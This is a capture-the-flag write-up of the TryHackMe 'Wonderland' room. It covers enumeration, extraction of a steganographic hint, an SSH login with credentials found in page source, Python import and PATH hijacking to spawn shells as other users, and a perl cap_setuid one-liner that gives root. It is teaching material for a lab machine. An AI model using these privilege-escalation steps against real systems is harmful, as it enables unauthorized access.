









# Wonderland
**Date:** February 4th 2022

**Author:** j.info

**Link:** [**Wonderland**](https://tryhackme.com/room/wonderland) CTF on TryHackMe.

**TryHackMe Difficulty Rating:** Medium

<br>

## Objectives
- user.txt flag
- root.txt flag

<br>

## Initial Enumeration

<br>

### Nmap Scan

Starting off with an nmap scan:

`nmap -sC -sV -T4 10.10.216.147`


We can see that only ssh and http are open:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
```


Given that we have an open http port let's start up a gobuster scan.

<br>

### Gobuster Scan

I start the scan with:

`gobuster dir -u http://10.10.216.147 -t 50 -r -w dir-med.txt`

and get back 3 results:

```
/img                  (Status: 200) [Size: 153]
/r                    (Status: 200) [Size: 258]
/poem                 (Status: 200) [Size: 1565]
```


<br>

## Website Digging

<br>

Opening up the default page shows us a picture of a rabbit:


<br>

Lets take a look through the directories we found using gobuster. Starting off with **/img**:



We see 3 image files which I download to my system. Looking in **/r**:



And finally **/poem**:


<br>

Let's take a look at the 3 images I downloaded from the **/img** directory and see if we have anything hidden in them. I run each of the images through `strings`, `exiftool`, `steghide`, and `stegseek`. It turns out they actually hid something in the **white_rabbit_1.jpg** file.

`stegseek white_rabbit_1.jpg`

```
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: ""
[i] Original filename: "hint.txt".
[i] Extracting to "white_rabbit_1.jpg.out".
```

Looking at the **white_rabbit_1.jpg.out** shows us:

```
follow the r a b b i t
```

I tried a few things at this point such as brute forcing some potential usersnames (Alice, Jabberwocky, etc) over ssh, full nmap -p- scan, and a nmap udp scan but didn't have any luck.

I then decided to further enumerate the website with gobuster. I ran a scan targetted specifically at the **/img** directory with nothing, and then moved on to the **/r** directory:

`gobuster dir -u http://10.10.216.147/r -t 50 -r -w dir-med.txt`

And, something additional comes back:

```
/a                    (Status: 200) [Size: 264]
```

I realized almost immediately that the **_follow the r a b b i t_** hint above was going to be quite literal and end up being:

```
http://10.10.216.147/r/a/b/b/i/t
```

Which it was, but for the sake of checking everything out and following the story I navigated to each letter:









And finally:


Looking at the page source:

```
<p style="display: none;">alice:<REDACTED></p>
```

That looks suspiciously like a username and password combo to me. Let's try and ssh over and see if it works.

<br>

## Alice

`ssh alice@10.10.216.147`

```
The authenticity of host '10.10.216.147 (10.10.216.147)' can't be established.
ED25519 key fingerprint is SHA256:Q8PPqQyrfXMAZkq45693yD4CmWAYp5GOINbxYqTRedo.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:83: [hashed name]
    ~/.ssh/known_hosts:84: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.216.147' (ED25519) to the list of known hosts.
alice@10.10.216.147's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 System information disabled due to load higher than 1.0


0 packages can be updated.
0 updates are security updates.


Last login: Mon May 25 16:37:21 2020 from 192.168.170.1
alice@wonderland:~$
```

And it worked!

Let's find the user flag:

```
alice@wonderland:~$ pwd
/home/alice
alice@wonderland:~$ ls -al
total 40
drwxr-xr-x 5 alice alice 4096 May 25  2020 .
drwxr-xr-x 6 root  root  4096 May 25  2020 ..
lrwxrwxrwx 1 root  root     9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 alice alice  220 May 25  2020 .bash_logout
-rw-r--r-- 1 alice alice 3771 May 25  2020 .bashrc
drwx------ 2 alice alice 4096 May 25  2020 .cache
drwx------ 3 alice alice 4096 May 25  2020 .gnupg
drwxrwxr-x 3 alice alice 4096 May 25  2020 .local
-rw-r--r-- 1 alice alice  807 May 25  2020 .profile
-rw------- 1 root  root    66 May 25  2020 root.txt
-rw-r--r-- 1 root  root  3577 May 25  2020 walrus_and_the_carpenter.py
alice@wonderland:~$
```

Wait, what? It appears the root.txt flag is in the user's home directory. That's definitely out of the ordinary and I don't have permissions to view it. Did they reverse the normal file locations and can we view user.txt in the /root directory maybe?

```
alice@wonderland:~$ cat /root/user.txt
<REDACTED>
```

Hah, they did! Kudos to the maker of this CTF for switching things up a bit.

Let's see if we have any sudo abilities:

`sudo -l`

```
[sudo] password for alice: 
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

I have permissions to the **walrus_and_the_carpenter.py** file so let's see what that is:

```
import random

---SNIP many lines of poem---

for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
```

There is a for loop that picks 10 random lines of the poem and displays them. Thankfully I watched somebody on a stream take advantage of an issue very similar to this. That **import random** at the top is what we can exploit.

If you make your own **random.py** file in your home directory the existing python program will try to import that instead of the one located in the python library. So, I make the file and add the following to spawn a shell:

```
import pty
pty.spawn("/bin/bash")
```

And since we can run this as user **rabbit** it should spawn a shell as that user letting us move laterally and see what we can find over there.

<br>

## Rabbit

I run:

`sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py`

```
sudo] password for alice: 
rabbit@wonderland:~$ whoami
rabbit
```

Alright now we're getting somewhere again. Let's switch over to the **rabbit** home directory and see what's there:

`cd ../rabbit`

```
rabbit@wonderland:/home/rabbit$ ls -al
total 40
drwxr-x--- 2 rabbit rabbit  4096 May 25  2020 .
drwxr-xr-x 6 root   root    4096 May 25  2020 ..
lrwxrwxrwx 1 root   root       9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 rabbit rabbit   220 May 25  2020 .bash_logout
-rw-r--r-- 1 rabbit rabbit  3771 May 25  2020 .bashrc
-rw-r--r-- 1 rabbit rabbit   807 May 25  2020 .profile
-rwsr-sr-x 1 root   root   16816 May 25  2020 teaParty
```

Not much except for the `teaParty` command that has a SUID bit set on it.

Running it:

```
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Fri, 04 Feb 2022 17:39:12 +0000
Ask very nicely, and I will give you some tea while you wait for him
please
Segmentation fault (core dumped)
```

No matter what you enter it seems to core dump every time.

I try to run `strings` on it since it's a binary file, but the command isn't installed.

I try `xxd` and that works. Here's a snippet from the output that tells us a bit more about what is happening with this program:

```
00002000: 0100 0200 0000 0000 5765 6c63 6f6d 6520  ........Welcome 
00002010: 746f 2074 6865 2074 6561 2070 6172 7479  to the tea party
00002020: 210a 5468 6520 4d61 6420 4861 7474 6572  !.The Mad Hatter
00002030: 2077 696c 6c20 6265 2068 6572 6520 736f   will be here so
00002040: 6f6e 2e00 0000 0000 2f62 696e 2f65 6368  on....../bin/ech
00002050: 6f20 2d6e 2027 5072 6f62 6162 6c79 2062  o -n 'Probably b
00002060: 7920 2720 2626 2064 6174 6520 2d2d 6461  y ' && date --da
00002070: 7465 3d27 6e65 7874 2068 6f75 7227 202d  te='next hour' -
00002080: 5200 0000 0000 0000 4173 6b20 7665 7279  R.......Ask very
00002090: 206e 6963 656c 792c 2061 6e64 2049 2077   nicely, and I w
000020a0: 696c 6c20 6769 7665 2079 6f75 2073 6f6d  ill give you som
000020b0: 6520 7465 6120 7768 696c 6520 796f 7520  e tea while you 
000020c0: 7761 6974 2066 6f72 2068 696d 0000 0000  wait for him....
000020d0: 5365 676d 656e 7461 7469 6f6e 2066 6175  Segmentation fau
000020e0: 6c74 2028 636f 7265 2064 756d 7065 6429  lt (core dumped)
```

We can see the initial text that gets printed, followed by:

`/bin/echo -n 'Probably by ' && date --date='next hour' -R`

And we can use a simliar tactic to the one we did above when we created the random.py file in our directory. This time we'll create a new **date** command since the code doesn't call /bin/date and just has date.

First let's change our PATH variable so when we run the program it will look for our newly created date command in our home directory first. I run:

`export PATH=/home/rabbit:$PATH`

And verify with the `env` command to see what the new PATH variable is:

```
PATH=/home/rabbit:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
```

Now let's create our new date command, that will basically just start a shell for us. Name the file **date** and put it in the same directory as the **teaParty** command with the following contents:

```
#!/bin/bash

/bin/bash
```

<br>

## Hatter

`chmod +x date` to make it executable and then run `teaParty again`:

```
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ whoami
hatter
hatter@wonderland:/home/rabbit$
```

You can see that where it would have put the date it cut off and ran a shell instead, and we're now logged in as user **hatter**.

Switching over to the **hatter** home directory shows us a file called **password.txt**. Looking inside gives you the password that allows us to ssh over as **hatter** instead of going through all the previous steps. Very helpful in case the box resets.

```
-rw------- 1 hatter hatter   29 May 25  2020 password.txt
```

Checking `sudo -l` as hatter:

```
Sorry, user hatter may not run sudo on wonderland.
```

I poke around for a bit but don't find anything overly useful. Lets further enumerate the box.

<br>


## System Enumeration

Time to enumerate the system a bit more and see what we can find.

Looking through the **/etc/passwd** file and there are several users with login shells. We've logged into each of them except root and tryhackme at this point.

```
alice:x:1001:1001:Alice Liddell,,,:/home/alice:/bin/bash
hatter:x:1003:1003:Mad Hatter,,,:/home/hatter:/bin/bash
rabbit:x:1002:1002:White Rabbit,,,:/home/rabbit:/bin/bash
root:x:0:0:root:/root:/bin/bash
tryhackme:x:1000:1000:tryhackme:/home/tryhackme:/bin/bash
```

Running the `id` command on each of the users:

```
uid=1001(alice) gid=1001(alice) groups=1001(alice)
uid=1003(hatter) gid=1003(hatter) groups=1003(hatter)
uid=1002(rabbit) gid=1002(rabbit) groups=1002(rabbit)
uid=0(root) gid=0(root) groups=0(root)
uid=1000(tryhackme) gid=1000(tryhackme) groups=1000(tryhackme),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

I set up a simple http server on my home system and download **linPEAS** onto the target system:

`python3 -m http.server 80`

`wget http://<MY IP>/linpeas.sh`

`chmod +x linpeas.sh`

Running linPEAS doesn't provide much other than this:

```
Files with capabilities (limited to 50):
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```

I look up what cap_setuid+ep will allow us to do and find the following information in the man page:



I haven't used capabilities for privilege escaltion before but remember seeing it on [**GTFOBins**](https://gtfobins.github.io/). Let's see what we can find there. Clicking on **perl** shows us:



<br>

## Root

I skip the copying and sudo steps since they aren't necessary and then run the following:

`/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'`

```
hatter@wonderland:~$ /usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# whoami
root
#
```

Bingo!

And we've already seen where the **root.txt** flag is located, back in the **alice** home directory.

`wc -c /home/alice/root.txt`

```
66 /home/alice/root.txt
```

Displaying that file will give us our final flag completing the CTF:

<br>



<br>

## Conclusion

<br>

A quick run down of what we covered in this CTF:
- Basic enumeration with `nmap` and `gobuster`
- Looking through the webpage for clues
- Using `stegseek` to extract a hidden file from an image file
- Examining Python code to find potential vulnerabilities
- Exploiting PATH issues to run things that weren't intended
- Examining binary files with `xxd` to find potential vulnerabilities
- Basic bash scripting
- Exploiting the **cap_setuid** capability

<br>

I had a great time going through this one. What a fun and creative CTF.

<br>

Many thanks to:
- [**NinjaJc01**](https://tryhackme.com/p/NinjaJc01) for creating this CTF.
- **TryHackMe** for hosting this CTF.

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)